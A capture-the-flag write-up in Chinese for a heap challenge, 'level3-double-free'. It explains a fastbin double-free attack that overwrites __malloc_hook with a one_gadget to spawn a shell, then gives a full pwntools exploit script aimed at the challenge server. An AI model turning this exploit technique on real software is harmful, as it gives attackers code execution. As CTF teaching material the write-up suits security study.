 # level3
### 思路
1. 给了一个libc函数setbuf的地址，可以推算libc的基地址。 
2. 利用double free在malloc_hook附近开一个新的内存块，将malloc_hook的地址修改成one_gadget，可以再次调用malloc就可以执行one_gadget，拿shell.
3. 比较小的堆块free时会先放到fastbin上，malloc时先从fastbin上取。由于进行free时,只会检查fastbin检查直接指向的堆块，不会检查后面的堆块。通过free后面的堆块可以实现任意地址写。
<img src="image.jpeg" width="500">
4. 由于one_gadget的条件都不满足，可以连续free两次一个区块，错误处理的时候，也会调用malloc， 由于这时函数调用比较多， 栈比较深，$rsp加上一个值很可能是0,这时one_gadget条件就满足了。

### exp
```python
from pwn import *
context.log_level="debug"
pwn_file="./level3-double-free"
elf=ELF(pwn_file)
libc=elf.libc

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22503)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

def addnote(content = ''):
    r.recvuntil(">> ")
    r.sendline("1")
    r.recvuntil("Content: ")
    if content:
      r.sendline(content)
    else:
      r.sendline('abc')

def deletenote(nid):
    r.recvuntil(">> ")
    r.sendline("3")
    r.recvuntil("Input your id:")
    r.sendline(str(nid))

setbuf_addr = r.recvline()[-15:-1]
setbuf_addr = int(setbuf_addr,16)
libc.address = setbuf_addr - libc.sym["setbuf"]
print hex(libc.address)

addnote() #0
addnote() #1
deletenote(0) 
deletenote(1)
deletenote(0)

malloc_block = libc.sym['__malloc_hook'] -0x23 

print hex(malloc_block)
addnote(p64(malloc_block)) # 2 is previous 0
addnote() # 3 
addnote() # 4 

one_gadget = 0xf02a4
sh_addr = libc.address + one_gadget
payload2 = 'a'*19 + p64(sh_addr)
addnote(payload2) # 5

deletenote(3)

r.recvuntil(">> ")
r.sendline("3")
r.recvuntil("Input your id:")
debug()
r.sendline("3")
r.interactive()
```